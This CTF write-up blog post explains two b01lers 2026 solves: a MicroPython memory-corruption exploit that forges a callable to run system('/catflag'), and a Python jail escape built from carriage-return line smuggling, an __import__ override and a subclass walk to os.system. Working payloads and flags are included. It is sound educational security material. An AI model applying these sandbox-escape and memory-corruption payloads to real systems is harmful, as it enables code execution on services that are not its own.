


:::caution
Spoilers ahead. This post includes solution details, payloads, and flags.
:::

b01lers CTF 2026 gave me two challenges that felt like they were designed by someone smiling just a little too much at the keyboard. One challenge handed me a tiny MicroPython runtime and asked me not to break it. The other removed builtins, banned dots, and somehow expected that to be calming. Reader, it was not calming.

This post collects the two solves I wanted to keep: `micromicromicropython` and `build-a-builtin`.

---

## [Pwn] micromicromicropython

`micromicromicropython` starts like a language sandbox challenge and then quietly turns into a memory-corruption puzzle wearing a Python costume. That is exactly the kind of identity crisis I enjoy.

### Why this challenge was fun

The high-level APIs were intentionally tiny, so the usual “find a cute Python escape” route died early. That was actually helpful. It pushed me toward the object model, and that is where the real bug lived.

The core idea was:

- unbound built-in methods could still be called with the wrong `self`
- C code then treated arbitrary objects as if they were `mp_obj_list_t`
- once that happened, I could build read and write primitives from inside the REPL

So this was not really “Python exploitation” in the comfortable sense. It was memory corruption with Python syntax as the delivery system.

### Step 1: Stop chasing imports and start chasing object internals

The service exposed a stripped MicroPython minimal build. Modules were sparse, `os` was patched out, and the friendly escape-hatch route was basically boarded shut.

So instead of spending all day begging for a convenient import, I looked for places where the runtime trusted object layout too much.

The important discovery was that self-type checks were effectively gone for several built-in method paths. That meant calls like these became dangerous:

```python
list.copy(...)
list.append(...)
list.pop(...)
```

If the runtime forgot to verify that `self` was really a list, then the C implementation would happily reinterpret some other object as list metadata. That is the sort of sentence that makes exploit developers sit up straighter.

### Step 2: Build a stable read primitive first

I started with a read primitive because guessing blind writes in a tagged object runtime is a fast road to sadness.

The useful shape was:

```python
r = list.copy(tuple([N, obj]))
```

With a carefully chosen `N`, the tuple fields were reinterpreted as list internals like:

- `len`
- `items`

Then `id(r[i])` effectively leaked raw `mp_obj_t` words from chosen memory regions.

That gave me deterministic leaks around static objects like `builtins` and `sys`, and eventually exposed the hidden VFS dictionary object.

### Step 3: Recover useful hidden functions

Once the leaks were stable, I extracted `vfs_posix_locals_dict` and recovered function objects such as:

- `open`
- `ilistdir`
- `stat`

That was the turning point. The runtime looked tiny from the front door, but the back room still had useful tools.

One especially nice detail was that `open` could be called with fake `self` values such as `[]` or `{}`. So even though the method was meant to belong to something else, I could still make it do useful work.

From there I read:

- `/proc/self/maps`
- `/proc/self/mem`
- filesystem metadata

`/catflag` itself was executable but not readable, so the final target became obvious:

```c
system("/catflag")
```

### Step 4: Resolve musl and aim at `system`

From `/proc/self/maps`, I recovered the `ld-musl` base. The runtime-specific offset for `system` was:

```text
0x5c5b6
```

So the calculation was simple:

```text
system = ld_musl_base + 0x5c5b6
```

At this point the challenge changed from “can I leak?” to “can I write cleanly enough to forge a callable object without destroying the whole process first?”

### Step 5: Build the write primitive and respect the low-byte constraints

The write primitive came from abusing unbound `list.append` with a fake list object made from a tuple.

In practice I used it in two ways:

- **one-step write** for bytes `0..6`
- **stage-two patch** for bytes `1..7` while preserving the low byte

Because of tagged-object layout constraints, I could not just drop any 8-byte value wherever I wanted. I had to use staged writes:

1. place an object whose raw low byte already matches the target low byte
2. patch the remaining bytes afterward

That sounds annoying because it was annoying. But it was the useful, honest kind of annoying.

### Step 6: Forge a fake callable on the heap

Instead of trying to patch read-only static objects, I forged a fake function object in heap list storage.

The important fields were:

```python
H[1] = mp_type_fun_builtin_3
H[2] = system
```

Then I built two more supporting objects:

- `G[1]` → pointer to the fake object
- `P[1]` → raw `char *` pointer to the string `"/catflag"`

So this call:

```python
G[1](P[1], 0, 0)
```

went through the MicroPython builtin-call path and ended up dispatching to:

```c
system("/catflag")
```

That is the sort of sentence that should not be possible in a healthy interpreter, but here we were.

### Step 7: Trigger and grab the flag before the process falls over

The full solver bootstrap looked like this near the critical point:

```python
run(io, "import builtins,sys")
run(io, "t=tuple([450,builtins]);r=list.copy(t);d=r[317];op=d['open']")
run(io, "m=op([],'/proc/self/mem','rb')")
```

And the final trigger was:

```python
out, closed = run(io, "G[1](P[1],0,0)", fatal_trace=False, allow_close=True)
print(out)
```

The remote printed:

:::note[Flag]
`bctf{this_was_originally_going_to_be_a_0day_but_someone_reported_it}`
:::

The process usually died right after, which felt less like a bug and more like the challenge saying, “Fine, you win, but I’m not happy about it.”

### Concept map



---

## [Jail] build-a-builtin

`build-a-builtin` is a Python jail with the energy of someone putting one chair in front of a vault door and calling it security architecture.

### Why this challenge was fun

The jail did four things that were meant to feel dramatic:

- it read one line of input
- it rejected any literal `.`
- it cleared `builtins.__dict__`
- it executed my code with only one helper: `set_builtin`

That sounds restrictive until you notice one very important detail: giving me a primitive that can write back into builtins is a bit like locking the kitchen and leaving me the master key under the mat.

### Step 1: Realize that “one line” is not really one line

The first crack in the wall was transport, not Python syntax.

`input()` stops at `\n`, but raw `\r` characters can still exist before that newline. Python treats `\r` as a valid line separator during parsing.

So this:

```text
line1\rline2\rline3\n
```

executes as real multi-line code.

That was lovely. The jail wanted one line. I handed it several lines wearing a trench coat.

### Step 2: Rebuild import capability with the one primitive it should never have exposed

The jail code was tiny enough to explain the whole failure:

```python
code = input("code > ")

if "." in code:
    print("Nuh uh")
    exit(1)

def set_builtin(key, val):
    builtins.__dict__[key] = val

exec = exec
builtins.__dict__.clear()
exec(code, {"set_builtin": set_builtin}, {})
```

The crucial helper was:

```python
set_builtin('__import__', lambda *a: set_builtin)
```

Now import statements worked again, but they returned my chosen function object. That meant I could use import syntax itself as a delivery mechanism for globals.

### Step 3: Avoid dots entirely in stage one

I still had to satisfy the outer lexical filter, so stage one stayed completely dotless.

The clean trick was:

```python
from x import __globals__ as g
```

Because the fake importer returned `set_builtin`, this bound:

```python
g = set_builtin.__globals__
```

Those globals still contained the saved privileged reference:

```python
exec = exec
```

So I could do:

```python
g['exec']("...", {}, {})
```

Still no literal `.` required in stage one. The jail was trying to police syntax while I was already using its object graph as a subway system.

### Step 4: Use stage two to bring dots back through escapes

The second stage lived inside a string passed to `g['exec'](...)`. That meant the outer source only had to avoid literal dots. Inside the string, I could encode dots as `\x2e` and let Python decode them later.

The real payload walked the object graph like this:

```python
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__=='_wrap_close'][0].__init__.__globals__
```

That gave me an `os`-backed globals dictionary containing `system`, and then the finish was:

```python
o['system']('cat /flag-* /srv/flag-* 2>/dev/null')
```

Very rude. Very effective.

### Step 5: Send the whole thing as one CR-separated payload

The logical three-line payload looked like this:

```python
set_builtin('\x5f\x5fimport\x5f\x5f',lambda *a:set_builtin)
from x import __globals__ as g
g['exec']("...stage2 with \\x2e escapes...",{}, {})
```

The solver packed it into one input string with `\r` separators:

```python
line1 = r"set_builtin('\x5f\x5fimport\x5f\x5f',lambda *a:set_builtin)"
line2 = "from x import __globals__ as g"
line3 = "g['exec'](\"" + second_stage.replace('"', '\\"') + "\",{}, {})"
payload = line1 + "\r" + line2 + "\r" + line3 + "\n"
```

And the second stage itself eventually resolved to:

```python
o=[x for x in (1).__class__.__base__.__subclasses__() if x.__name__=='_wrap_close'][0].__init__.__globals__
o['system']('cat /flag-* /srv/flag-* 2>/dev/null')
```

### Step 6: Read the flag from the remote output

The automation was simple:

- connect over SSL
- wait for `code >`
- send the CR-separated payload
- read until close
- regex the flag

The returned flag was:

:::note[Flag]
`bctf{congratulations_ctf_agent_6_from_solver_swarm_2_for_solving_this_challenge}`
:::

### Why the jail failed

The challenge is a nice reminder that blacklist filters age badly in computer years, which is to say immediately.

The actual failures were:

1. banning literal `.` is only a lexical filter
2. `\r` still creates real multi-line code
3. `set_builtin` lets me rebuild exactly what the jail removed
4. a saved `exec` reference in reachable globals is basically a gift basket

### Concept map



---

## References

- [MicroPython internals documentation](https://docs.micropython.org/) - useful background for understanding object layout and builtin behavior in the first challenge
- [pwntools documentation](https://docs.pwntools.com/) - transport and exploit scripting reference
- [Python builtins documentation](https://docs.python.org/3/library/builtins.html) - background for the jail challenge’s builtin reconstruction angle
- [Python lexical analysis](https://docs.python.org/3/reference/lexical_analysis.html) - useful for reasoning about escapes and parsed source behavior

## Closing notes

This pair was a lot of fun because both challenges punished polite assumptions. In `micromicromicropython`, the interpreter only looked tiny until I started reading its bones. In `build-a-builtin`, the jail only looked strict until I noticed it had left me both the crowbar and the floor plan. That is my favorite kind of CTF nonsense: the kind that looks rude at first and elegant in hindsight.
